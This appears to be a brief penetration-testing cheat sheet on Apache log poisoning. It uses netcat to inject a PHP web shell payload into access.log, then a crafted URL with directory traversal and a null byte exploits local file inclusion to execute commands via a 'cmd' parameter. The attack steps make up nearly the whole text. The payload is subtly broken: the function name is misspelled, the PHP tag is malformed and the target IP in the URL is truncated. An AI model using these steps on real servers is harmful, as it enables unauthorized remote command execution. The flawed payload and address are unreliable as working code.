 # Poison a Local File on Victim Machine 
* Example: poison apache/logs/access.log

## 1. Setup Netcat Connection to Victim & Pass Poison
```$xslt
root@kali:~# nc -nv 10.11.26.24 80
<?php echo sheel_exec($_GET['cmd']);>
```

## 2. Craft URI
* We will point the vulnerable parameter to `../../../../../../../xampp/apache/logs/access.log`
* We will execute our command via the `cmd` param.
```$xslt
http://10.11.26/something.php?name=gothburz&comment=testing&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00&Submit=Submit
```

